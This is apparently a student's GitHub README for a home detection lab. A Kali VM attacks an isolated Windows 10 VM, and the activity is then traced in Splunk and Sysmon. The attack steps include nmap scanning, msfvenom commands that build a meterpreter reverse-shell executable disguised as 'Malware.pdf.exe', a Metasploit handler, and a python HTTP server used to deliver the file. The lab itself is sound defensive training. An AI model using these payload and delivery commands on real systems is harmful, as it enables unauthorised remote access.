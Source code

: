 Detection Lab

## Objective

This Detection Lab project aimed to establish a controlled environment for simulating and detecting cyber attacks. The primary focus was to ingest and analyze logs within a Security Information and Event Management (SIEM) system, generating test telemetry to mimic real-world attack scenarios. This hands-on experience was designed to deepen my understanding of network security, attack patterns, and defensive strategies.

### Lessons Learned

- Proper configuration of virtual machines.
- Understanding of SIEM concepts and practical application.
- Proficiency in analyzing and interpreting SIEM logs.
- Ability to generate telemetry.
- Development of critical thinking and problem-solving skills in cybersecurity.

### Tools Used

- Virtual Box as the hypervisor.
- Splunk (SIEM) with sysmon add-on for log ingestion and analysis.
- Windows 10 (victim) as the target
- Kali Linux (attacker) to generate telemetry for ingestion and analysis

## Steps
1. Using Virtual Box as my hypervisor I created two VMs. Kali Linux to generate the telemetry needed, and Windows 10 to act as the target. On the Windows 10 VM, I installed Splunk along with Sysmon to be used to log and monitor the telemetry. I also disabled Windows Defender and enabled RDP as that will be the targetted port.

2. Configure VMs:
![internal network](https://github.com/user-attachments/assets/f7cc3d1b-939b-4918-ae2d-d0cea180a57c)
_Figure 1: Changed the network setting to Internal Network to ensure a secure environment and isolated communication between multiple VMs especially when executing malware. I do this for both VMs._
![statically configure IP](https://github.com/user-attachments/assets/ab444a7d-4c4c-4692-8ccf-0861d7594f3b)
![Kali manually IP](https://github.com/user-attachments/assets/6964769b-13e3-42f7-a044-4170eaa27a14)
_Figures 2 & 3: I manually configured both VMs' IPs to be on the same network (Windows= 192.168.100.1 | Kali Linux= 192.168.100.2)_
![Cofirming IP change](https://github.com/user-attachments/assets/5e574eae-2efc-4491-a257-e53fb15e187a)
_Figure 4: Check that both VMs' IPs have been successfully changed using ipconfig/ifconfig._
![Windows pinging Kali](https://github.com/user-attachments/assets/1e13cdfd-0f0a-48a1-8708-922e0497f0c2)
_Figure 5: Using Windows 10, I ping the Kali Linux VM to ensure that there is a connection. I did not ping from Kali Linux to Windows as Windows 10's Firewall was blocking ICMP traffic._

3. In Kali Linux I scan for open ports on Windows 10 using the command "nmap -A 192.168.100.1 -Pn"
![nmap showing open port 3389](https://github.com/user-attachments/assets/d919803b-2ec5-4b12-b093-42437b433223)
<br clear="left"/> _Figure 6: Port 3389 is open. This should be open as I had enabled RDP on the Windows 10 machine_

4. Create a basic malware using msfvenom
![msfvenom malware creation](https://github.com/user-attachments/assets/16fce8d8-059c-4609-9960-db3e9afe8518)
<br clear="left"/> _Figure 7: First I used the command "msfvenom -l payload" to see the list of payload options. I will use "windows/x64/meterpreter_reverse_tcp" as the payload. Now using the command "msfvenom -p (chosen payload option) lhost=192.168.100.2 lport=4444 -f exe -o Malware.pdf.exe" will generate our executable malware using the meterpreter reverse TCP payload with the filename of Malware.pdf.exe._

5. Open Metasploit using "msfconsole" to listen in when executing malware and "use exploit/multi/handler" to configure the payload itself.
   ![metasploit payload config](https://github.com/user-attachments/assets/9dd8674c-2419-4a1e-9f49-1a2e7572b2f5)
   <br clear="left"/>_Figure 8: I changed the payload option to "windows/x64/meterpreter/reverse_tcp" and Lhost to Kali Linux's IP_

6. Use the command "Exploit" to begin listening

7. Before going back to Windows 10, open a quick HTTP server on Kali Linux for the victim to download using the command "python3 -m http.server 9999"

8. On Windows 10, open a browser and type in "192.168.100.2:9999" into the URL
  ![download malicious file](https://github.com/user-attachments/assets/ad02f142-3fce-4bcd-8887-5e861178e1a7)
  <br clear="left"/> _Figure 9: Suspicious looking webpage hosting a downloadable file with an executable extension_

9. Open the Terminal as admin and use "netstat -anob" to check for established connection
   ![malware connection established](https://github.com/user-attachments/assets/71984906-1234-4deb-8265-a21708432dc0)
   ![Screenshot 2025-02-18 151544](https://github.com/user-attachments/assets/608acc5b-ccf5-4f46-8a53-3477e813e4fb)
   <br clear="left"/> _Figures 10 & 11: This shows connection has been established on both Windows 10 and Kali Linux machine_

10. Back in Metasploit use the "shell" command to establish a shell on our test machine. To create some telemetry use the command "net user, net localgroup, and ipconfig"

11. Back on Windows 10, login to Splunk and query for Kali Linux's IP using "index=endpoint 192.168.100.2"
    ![RDP port in splunk](https://github.com/user-attachments/assets/f97fb2b5-99b3-4362-89d5-eb5367d2f2bc)
    <br clear="left"/> _Figure 12: I see port 3389, used for RDP. Some questions to ask as an analyst are "Should this machine be attempting to our RDP port?" or "Who does this machine belong to?" Looking at this telemetry, we would not know that this was an Nmap scan which shows the importance of network sensors that may show potential signatures or TCP flags._

12. Next I queried "index=endpoint malware.pdf.exe EventCode=1" and opened the first log (EventCode= 1 is for process creation in sysmon)
   ![Screenshot 2025-02-18 161442](https://github.com/user-attachments/assets/8454fae8-9423-41ca-8240-8f0ac52af670)
  <br clear="left"/> _Figure 13: "process_guid" is a sysmon log that tracks all events of a process. In this case, this should track the process of the reverse shell command from Kali._

13. Finally I query "index=endpoint (process_guid) | table _time,ParentImage,Image,Commandline" to give a visual representation
    ![process GUID net user](https://github.com/user-attachments/assets/f1e5e50c-2f32-4757-b322-366d92e71314)
    <br clear="left"/> _Figure 14: I see the reverse shell and "net user" but not "net localgroup" or "ipconfig". This may be due to issues with data forwarding/parsing or commands not executing properly due to the VM._


